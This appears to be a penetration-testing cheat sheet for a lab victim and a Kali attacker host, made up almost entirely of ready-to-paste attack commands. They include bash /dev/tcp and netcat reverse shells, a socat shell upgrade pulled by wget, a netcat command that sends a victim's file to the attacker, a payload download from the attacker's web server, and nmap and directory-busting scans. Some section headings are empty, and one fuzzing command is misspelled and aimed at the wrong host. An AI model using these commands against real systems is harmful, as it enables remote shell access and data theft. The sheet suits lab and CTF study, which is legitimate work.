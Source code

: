> Victim host 10.10.10.77 and Kali host 10.10.10.10

## Useful Commands

### Create web server

#### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

#### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

#### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

#### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

#### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

#### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

#### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

#### Listener

```
nc -lvp 4444
```

## Enumeration

#### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

#### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

#### FuFF

VHOST Discovery

```
fuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
